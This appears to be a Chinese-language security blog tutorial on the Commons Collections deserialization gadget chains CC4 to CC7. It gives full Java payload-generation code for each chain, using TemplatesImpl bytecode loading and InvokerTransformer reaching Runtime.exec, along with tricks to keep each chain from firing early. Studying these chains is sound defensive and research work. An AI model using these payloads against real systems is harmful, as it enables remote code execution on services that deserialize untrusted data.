




+++
date = '2026-04-27T15:09:26+08:00'
draft = false
title = 'Java Deserialization CC4-CC7'
categories = ["java"]
tags = ["java-security", "deserialization", "cc3-cc7"]

+++

# 前言

剩下的关于commons-collections的漏洞与前面的cc1-cc3没有什么大的区别，无非是换了一些gadget链的某一些利用类，这里就一起讲了

---

# 一、CC4

### 1 环境

首先引入漏洞库，漏洞库为commons-collections4

```xml
<dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
```

java版本选择JDK8u65

### 2 gadget构造链

```java
/**
 *Gadget chain:
 * 		ObjectInputStream.readObject()
 * 			PriorityQueue.readObject()
 * 			    PriorityQueue.heapify()
 * 			        PriorityQueue.siftDown()
 * 			            PriorityQueue.siftDownUsingComparator()
 * 					        TransformingComparator.compare()
 * 					        	ChainedTransformer.transform()
 *  								ConstantTransformer.transform()
 *  								InstantiateTransformer.transform()
 *  							       TrAXFilter.init()
 *  									    TemplatesImpl.newTransformer()
 *  									    	TemplatesImpl.getTransletInstance()
 *  								                Class.newInstance()
 **/
```

这个gadget主要是根据CC2和CC3改变过来，是使用CC2的前半部分的`priorityQueue`来作为readObject的入口，然后使用CC3的后半部分使用`InstantiateTransformer`来调用`TrAXFilter`的构造函数触发`TransformerImpl.newTransformer`

下面是payload的生成代码

```java
public static void main(String[] args) throws Exception {
    TemplatesImpl templates = new TemplatesImpl();
    Class tc = templates.getClass();
    Field nameField = tc.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates,"aaa");
    Field declaredField = tc.getDeclaredField("_bytecodes");
    declaredField.setAccessible(true);
    byte[] code = Files.readAllBytes(Paths.get("D:\\evilCode\\Test.class"));
    byte[][] codes = {code};
    declaredField.set(templates,codes);

    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates}),
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(new ConstantTransformer(1));
    TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
    PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
    priorityQueue.add(new Integer(1));
    priorityQueue.add(new Integer(2));
    Field iTransformersField = chainedTransformer.getClass().getDeclaredField("iTransformers");
    iTransformersField.setAccessible(true);
    iTransformersField.set(chainedTransformer,transformers);
    serialize(priorityQueue);
}
```

这里需要注意的还是，在给优先队列添加元素的时候，需要在添加前放入可序列化的对象如1，然后添加以后，再修改为恶意类，注意，这里先放入fake gadget主要是防止再实例化TrAXFilter以及他调用后面的一系列方法的时候，不报错，因为在实例化的时候，我们看到这个方法

```java
public synchronized Transformer newTransformer()
    throws TransformerConfigurationException
{
    TransformerImpl transformer;

    transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
                                      _indentNumber, _tfactory);

    if (_uriResolver != null) {
        transformer.setURIResolver(_uriResolver);
    }

    if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
        transformer.setSecureProcessing(true);
    }
    return transformer;
}
```

按理来说，我们只需要走到`getTransletInstance`即可，但是如果我们直接放入恶意类的gadget，就需要给_tfactory也赋值，让他可以先被序列化，如果我们放入fake gadget，就不需要给它赋值。

这就是CC4所需要注意的点了，把调用链的图摆一下




# CC5-CC6

这两个链很像，但是也有一些不同，所以放到一起讲

### 1 环境

首先引入漏洞库，漏洞库为commons-collections

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

java版本选择JDK8u65

### 2 gadget构造链

CC5的调用链

```java
/**
 * Gadget chain:
 *         ObjectInputStream.readObject()
 *             BadAttributeValueExpException.readObject()
 *                 TiedMapEntry.toString()
 *                     LazyMap.get()
 *                         ChainedTransformer.transform()
 *                             ConstantTransformer.transform()
 *                             InvokerTransformer.transform()
 *                                 Method.invoke()
 *                                     Class.getMethod()
 *                             InvokerTransformer.transform()
 *                                 Method.invoke()
 *                                     Runtime.getRuntime()
 *                             InvokerTransformer.transform()
 *                                 Method.invoke()
 *                                     Runtime.exec()
 */
```

CC6的调用链

```java
/**
 * Gadget chain:
 * 	    java.io.ObjectInputStream.readObject()
 *             java.util.HashSet.readObject()
 *                 java.util.HashMap.put()
 *                 java.util.HashMap.hash()
 *                     org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
 *                     org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
 *                         org.apache.commons.collections.map.LazyMap.get()
 *                             org.apache.commons.collections.functors.ChainedTransformer.transform()
 *                             org.apache.commons.collections.functors.InvokerTransformer.transform()
 *                             java.lang.reflect.Method.invoke()
 *                                 java.lang.Runtime.exec()
 */
```

#### CC6

我们先看CC6这个调用链，它主要是利用了`LazyMap`这个类的get方法作为触发漏洞的一环，那我们需要知道这个LazyMap为什么叫这个名，和普通的Map有什么区别，其实关键就在，LazyMap是有一个懒加载机制，如果一个key没有被get的话，他是不会给它创建map，只有真正用到它以后，才会给它创建map，其懒加载代码如下

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

很不巧，我们的transform正好在懒加载机制中，这就要求我们，我们构造lazyMap的时候，不能让我们加入的key被调用get方法，不然一旦调用get后，等反序列化的时候，就不会走到`map.containsKey(key) == false`这个条件的内部，而是直接跳转到`return map.get(key);`就不按照我们的逻辑走了，但是很不巧，我们在将lazyMap加入hashMap或者set的时候，必然JVM在内部会自动调用hashCode，进而调用get，导致这个key被加载为一个对象，所以我们需要在他调用get方法后，手动给她删掉，才可以保证反序列化的时候，可以按照正常逻辑来走，下面是payload代码
```java
Transformer[] fake = new Transformer[]{
    new ConstantTransformer(1),
};
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{Runtime.class,null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(fake);
Map<Object,Object> map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put(tiedMapEntry, "bbb");
HashSet<Object> set = new HashSet<>(1);
set.add(tiedMapEntry);
lazyMap.remove("aaa");
//反射修改ChainedTransformer的值
Field f = chainedTransformer.getClass().getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(chainedTransformer, transformers);
serialize(set);
```

CC6的流程图



#### CC5

然后我们再说CC5，因为CC5这里也用到了lazyMap，但是他不需要调用移除key，原因就是，tiedMapEntry后续没有调用put，add这种需要重新计算hashCode的方法，进而不会调用get方法，换句话说，在反序列化的时候，lazyMap里面的key还是新的key，所以不需要remove，下面是payload

```java
public static void main (String[] args) throws Exception{
    Transformer[] fake = new Transformer[]{
        new ConstantTransformer(1),
    };
    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{Runtime.class,null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(fake);
    HashMap<Object, Object> hashMap = new HashMap<>();
    hashMap.put(1, "value");
    Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
    TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");
    //这里不需要remove(aaa)，因为后续代码中没有将tiedMapEntry执行操作，这里指的是，没有put，add这种需要重新计算hashCode的操作，不会出发LazyMap的get操作
    BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
    Field valField = badAttributeValueExpException.getClass().getDeclaredField("val");
    valField.setAccessible(true);
    valField.set(badAttributeValueExpException, tiedMapEntry);
    Field iTransformersField = chainedTransformer.getClass().getDeclaredField("iTransformers");
    iTransformersField.setAccessible(true);
    iTransformersField.set(chainedTransformer,transformers);
    serialize(badAttributeValueExpException);
}
```

CC5的流程图



# 三、CC7

### 1 环境

首先引入漏洞库，漏洞库为commons-collections

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

java版本选择JDK8u65

### 2 gadget构造链

```java
/**
 * Payload method chain:
 *
 *     java.util.Hashtable.readObject
 *     java.util.Hashtable.reconstitutionPut
 *     org.apache.commons.collections.map.AbstractMapDecorator.equals
 *     java.util.AbstractMap.equals
 *     org.apache.commons.collections.map.LazyMap.get
 *     org.apache.commons.collections.functors.ChainedTransformer.transform
 *     org.apache.commons.collections.functors.InvokerTransformer.transform
 *     java.lang.reflect.Method.invoke
 *     sun.reflect.DelegatingMethodAccessorImpl.invoke
 *     sun.reflect.NativeMethodAccessorImpl.invoke
 *     sun.reflect.NativeMethodAccessorImpl.invoke0
 *     java.lang.Runtime.exec
 */
```

这个gadget的后半部分还是InvokerTransformer的transform使用反射来实现代码执行

主要是在前面的入口改了，先讲思路，主要是使用hashTable，存了两个lazyMap，这两个map中的key的hash值是相同的，然后在hashTable的`reconstitutionPut`方法中触发hash碰撞，进而调用key.equals方法，最后触发lazyMap的get方法

我们说的hash碰撞，主要是要过这一段的代码逻辑

```java
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
    throws StreamCorruptedException
{
    if (value == null) {
        throw new java.io.StreamCorruptedException();
    }
    // Makes sure the key is not already in the hashtable.
    // This should not happen in deserialized version.
    int hash = key.hashCode();
    int index = (hash & 0x7FFFFFFF) % tab.length;
    for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
        if ((e.hash == hash) && e.key.equals(key)) {
            throw new java.io.StreamCorruptedException();
        }
    }
    // Creates the new entry.
    @SuppressWarnings("unchecked")
    Entry<K,V> e = (Entry<K,V>)tab[index];
    tab[index] = new Entry<>(hash, key, value, e);
    count++;
}
```

我们要走到`e.key.equals(key)`就需要让`e.hash == hash`这个判断先满足，所以我们需要构造两个lazyMap，并且他们的key的hash值要相同，先看payload

```java
public static void main(String[] args) throws Exception {
    Transformer[] fake = new Transformer[]{
        new ConstantTransformer(1),
    };
    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{Runtime.class,null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(fake);
    HashMap<Object, Object> hashMap1 = new HashMap<>();
    hashMap1.put("yy",2);
    Map lazyMap1 = LazyMap.decorate(hashMap1, chainedTransformer);
    HashMap<Object, Object> hashMap2 = new HashMap<>();
    hashMap2.put("zZ",2);
    Map lazyMap2 = LazyMap.decorate(hashMap2, chainedTransformer);
    Hashtable hashtable = new Hashtable<>(11);
    hashtable.put(lazyMap1,1);
    hashtable.put(lazyMap2,2);
    hashMap2.remove("yy");
    Field f = chainedTransformer.getClass().getDeclaredField("iTransformers");
    f.setAccessible(true);
    f.set(chainedTransformer, transformers);
    serialize(hashtable);
}
```

注意到这里，我们又remove了，而且我们是remove的hashMap2的yy这个key，但是很奇怪，我们之前的yy这个key不是在hashMap1中吗，这里需要讲一下hashTable的put机制

在执行`put(lazyMap2, 2)`时，因为`lazyMap1`("yy")和`lazyMap2`("zZ") 的哈希值相同，`Hashtable`认为发生了哈希碰撞。为了确认这两个key是否真的是同一个对象，`Hashtable`内部会调用`equals()`方法进行比对：`lazyMap1.equals(lazyMap2)`

- 这会调用`AbstractMap.equals()`。该方法会遍历`lazyMap1`里的所有key（也就是 `"yy"`）。
- 然后它会去另一个 map 中取值进行比较，即调用：`lazyMap2.get("yy")`。
- 注意这里，他调用了`lazyMap2.get("yy")`，导致被懒加载了，就和CC6一样，在反序列化的时候，直接跳过transfrom这个方法，导致攻击失败

CC7的调用图



---

总结，在这里主要是讲解关于构造细节的问题，在构造payload的时候，不能只考虑表面现象，还要考虑我们在往一些对象注入一些东西的时候，会不会产生副作用，导致我们的构造链被提前触发，这一点需要我们不管是调试，或者问ai，需要细致的构造

后续会开其他漏洞库的payload的构造过程还有静态分析的相关文章，通过静态分析，我们会对库的代码做一个自动化筛选，筛选出可疑的反序列化链，我们可以基于这个，来对代码审计做一个高效的筛选。

